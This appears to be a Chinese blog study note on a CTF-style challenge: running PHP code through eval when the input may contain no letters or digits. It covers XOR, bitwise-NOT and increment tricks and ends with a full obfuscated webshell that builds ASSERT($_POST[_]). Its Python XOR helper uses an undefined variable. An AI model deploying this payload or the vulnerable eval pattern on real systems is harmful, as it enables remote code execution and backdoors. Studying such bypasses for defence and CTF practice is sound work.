 ```yaml
---
layout: post
title: 无字母数字webshell
subtitle: "webshell"
author: "bo"
header-img: "img/post-bg-halting.jpg"
header-mask: 0.3
---
```

这篇blog是看了p牛以前在小密圈提出的问题，然后自己总结一下方便复习  
一开始的题目：
```php
<?php
if(!preg_match('/[a-z0-9]/is',$_GET['shell'])) {
  eval($_GET['shell']);
}
?>
```  

### #基本思路
&emsp;&emsp;核心思路是把非字母数字变换，构造出想要得到的字符，再利用php动态函数执行的特点，拼接出想要执行的函数，动态执行便可
- 常见的绕过方式有三种  

#### #方法一

&emsp;&emsp;**异或**：可以通过位运算异或，让两个不包含字母和数字的字符串异返回一个新的字符串，我们可以利用这个特性来进行构造。
写一个python脚本可以很轻松的构造这两个字符串来。
```python
valid = "1234567890!@$%^*(){}[];\'\",.<>/?-=_`~ "

target = "xxxxxxx"

tmp1,tmp2 = '',''
for c in answer:
    for i in valid:
        for j in valid:
            if (ord(i)^ord(j) == ord(c)):
                tmp1 += i
                tmp2 += j
                break
        else:
            continue
        break
print(tmp1,tmp2)
```  
#### #方法二

&emsp;&emsp;**取反**：和第一种类似，不过，取反要比上一个方便一点，异或可能有些字符构造不出来。  
取反还可以利用汉子来构造，比如字母s可以通过~（'和'{2}） 来表示 （这里和是%e5%92%8c，{2}取到%8c,取反就是s）

#### #方法三

&emsp;&emsp;**自增**：在php里面，有一个小技巧
![image.png](https://i.loli.net/2020/03/30/UOdT87MpWzHbaqo.png)
详细文档：http://php.net/manual/zh/language.operators.increment.php
也就是说：'a'++ => 'b', 'b'++ => c ... 所以这里我们只需要拿到a和A就可以构造出 所有的字母。  
如何拿到a和A，这里可以想到array  
array和字符串连接，能得到’array‘
![image.png](https://i.loli.net/2020/03/30/ZwrLxq9fVsC1z47.png)
再取这个字符串的第一个和第三个字母就好了
因为函数大小写不敏感，所以直接取A就行。至于0如何得到。因为php是弱类型的，所以'@'=='!'就得到0了。
最后整个利用过程：
```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
?>
```

